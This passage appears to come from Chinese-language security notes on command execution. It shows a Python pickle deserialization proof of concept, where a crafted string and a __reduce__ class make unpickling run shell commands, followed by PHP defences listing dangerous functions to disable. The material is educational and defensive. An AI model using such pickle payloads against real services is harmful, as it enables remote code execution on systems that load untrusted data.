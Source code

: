 - **反序列化：**

  pickle和cpickle

  `pickle.loads`	

```
>>> import cPickle
>>> cPickle.loads("cos\nsystem\n(S'uname -a'\ntR.")
Linux RCM-RSAS-V6-Dev 3.9.0-aurora #4 SMP PREEMPT Fri Jun 7 14:50:52 CST 2013 i686 Intel(R) Core(TM) i7-2600 CPU @ 3.40GHz GenuineIntel GNU/Linux
0
```

```
import cPickle
import os
import urllib

class genpoc(object):
    def __reduce__(self):
        s = """ls /"""  #要执行的命令
        return os.system, (s,)        #os.system("echo test >poc.txt")

e = genpoc()
poc = cPickle.dumps(e)

print poc
print urllib.quote(poc)
fp = open("poc.pickle","w")
fp.write(poc) # 生成 pickle文件

-----------------------
import pickle

pickle.load(open('./poc.pickle'))
```







#### 命令执行&代码执行防御

**PHP**

disable_function 是在php.ini配置文件中中一个自带的禁止函数访问的配置

禁止代码执行或者命令执行可以禁止一下函数

```php
#危险函数
system,shell_exec,exec,passthru,popen,proc_open,pcntl_exec,dl,proc_open,pfsockopen,popen
```

```
#防御函数
escapeshellarg
escapeshellcmd
```
